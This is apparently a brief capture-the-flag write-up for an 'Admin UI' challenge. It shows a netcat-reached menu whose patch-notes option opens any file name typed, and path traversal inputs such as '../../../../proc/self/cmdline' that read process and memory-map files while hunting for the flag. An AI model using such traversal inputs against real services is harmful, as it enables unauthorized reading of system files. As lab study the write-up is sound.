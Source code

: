 # ADMIN UI


I'll built a shell script to connect with netcat to the given url, so execute:

```
sh connection.sh

>=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

```

if you press 1) it asks you for a password, let's pass

```
if you press 2):

> The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
```
you have to Write correctly Version0.2 or Version0.3, in the case of you write something wrong, such as:

´´´
>The following patchnotes were found:
 22  - Version0.2
 23  - Version0.3
 24 Which patchnotes should be shown?

asd
>Error: No such file or directory
´´´

it seems to be a bash error (not a warning that the software throws), so it's trying to open a directory with that name

so let's try to see if we find something interesting in the files. in proc/self/cmdline we can see which command has be executed in this procedure. And do the same with maps.
```
 ../../../../proc/self/cmdline
> ./main

. . . 

../../../proc/self/maps

>00400000-00401000 r-xp 00000000 08:01 768497                             /home/user/main
41414000-41415000 r-xp 00014000 08:01 768497                             /home/user/main
41615000-41616000 r--p 00015000 08:01 768497                             /home/user/main
41616000-41617000 rw-p 00016000 08:01 768497                             /home/user/main
41c3d000-41c6f000 rw-p 00000000 00:00 0                                  [heap]
. . . 
```
I developed the script named connection.sh that looks the main folder and looks for something named flag or ctf

```
chmod +x connection.sh
./connection.sh

> flag
FLAG_FILE
_flags2
_flags
/usr/local/google/home/hamacher/stuff/2018-ctf-quals/2018-challenges-quals/beginners/pwn-re-mngmnt-iface/src
FLAG
_ZL9FLAG_FILE
_ZL4FLAG
```

so we will just have to see this folders.

